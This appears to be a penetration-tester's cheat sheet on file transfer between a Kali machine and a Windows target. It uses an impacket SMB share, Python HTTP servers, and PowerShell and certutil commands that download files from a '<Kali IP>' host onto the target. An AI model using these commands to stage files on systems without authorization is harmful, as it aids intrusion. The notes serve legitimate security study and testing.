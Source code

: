# File transfer

## SMB - from Windows to Kali or vice-versa

On Kali start a SMB share server on the folder you want to be shared
```
cd <path>
impacket-smbserver share $(pwd) -smb2support
```

On the target
```
net use \\<Kali IP>\share
net use
copy \\<Kali IP>\share\<file> .
dir
```

## HTTP - from Kali to target

```
cd <path>
sudo python -m SimpleHTTPServer 80
```
or
```
cd <path>
sudo python3 -m http.server 80
```

### download to Windows

Powershell
```
Invoke-WebRequest -Uri 'http://<Kali IP>/<filename>' -OutFile <filename> 
```

Certutil
```
certutil -urlcache -f 'http://<Kali IP>/<filename>' <filename>
```



## Links
- [file transfer cheatsheet Windows and Linux](https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/)
- https://infinitelogins.com/2020/09/04/windows-file-transfer-cheatsheet/
- https://blog.certcube.com/file-transfer-cheatsheet-for-pentesters/
- https://fir3wa1-k3r.github.io/2018/10/17/File-Transfer-cheatsheet.html